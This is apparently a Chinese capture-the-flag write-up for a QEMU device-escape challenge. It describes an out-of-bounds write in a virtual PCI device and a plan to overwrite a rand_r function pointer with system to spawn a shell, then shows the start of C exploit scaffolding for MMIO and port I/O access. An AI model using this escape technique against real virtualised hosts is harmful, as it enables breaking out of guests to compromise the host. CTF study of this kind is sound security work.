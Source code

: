 在`d3dev_mmio_write`函数中的越界写可以直接修改结构体中的数据，两个分支一个可以直接覆写4字节，另一个经过加密后可以覆写8字节；`d3dev_mmio_read`读取的数据要经过随机数key和key1进行加密，可以通过越界写将两处key内存覆盖为0或在`d3dev_pmio_write`函数中将两处key都设置为0

rand_r是一个libc中函数的指针，在`d3dev_pmio_write`函数中被调用，参数为`d3devState->r_seed`，可以在`d3dev_pmio_write`中设置r_seed的值，所以漏洞利用思路是直接泄露该地址后可以修改参数为"sh"并覆写rand_r指针为system函数，执行`system("sh")`

> 由于没有pwntools可以在泄露libc地址后快速定位system函数地址，可以在[libc database search](https://libc.blukat.me/)查找各个libc的函数偏移，这里在本机运行直接泄露查找，在比赛的时候可能需要运行docker泄露地址，以防libc小版本偏移不同
>
> ![](https://i.loli.net/2021/11/26/i2Sqpw6nKuFIHJo.png)



exp：

```c
//gcc -o exp exp.c -static

#include <stdint.h>

#include <fcntl.h>

#include <sys/mman.h>

#include <sys/io.h>

#include <stdio.h>

#include <unistd.h>




unsigned char* mmio_mem = 0;

void setup_mmio() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
}

void mmio_write(uint32_t addr, uint32_t value) {
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint64_t mmio_read(uint64_t addr) {
    return *((uint64_t *)(mmio_mem + addr));
}



uint32_t pmio_base = 0xc040;

void setup_pmio() {
    iopl(3);
}

void pmio_write(uint32_t addr, uint32_t value)
{
    outl(value, pmio_base + addr);
}

uint64_t pmio_read(uint32_t addr)
{
    return (uint64_t)inl(pmio_base + addr);
}

```